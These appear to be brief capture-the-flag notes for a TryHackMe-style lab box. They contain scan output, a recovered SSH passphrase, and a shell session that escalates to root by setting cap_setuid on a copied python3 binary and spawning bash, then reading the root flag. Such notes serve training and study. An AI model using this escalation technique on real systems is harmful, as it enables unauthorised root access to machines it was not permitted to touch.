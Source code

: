 
10.10.46.86
10.10.159.237

22/tcp   open  ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)

7070/tcp open  ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client


ssh id_rsa
password: annie123

annie:x:1000:1000:Annie Dash,,,:/home/annie:/bin/bash


https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

annie@desktop:~$ setcap cap_setuid+ep ./python3
annie@desktop:~$ getcap -r / 2>/dev/null
/home/annie/python3 = cap_setuid+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
annie@desktop:~$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@desktop:~#

root@desktop:~# cat /root/root.txt
THM{0nly_th3m_5.5.2_D3sk}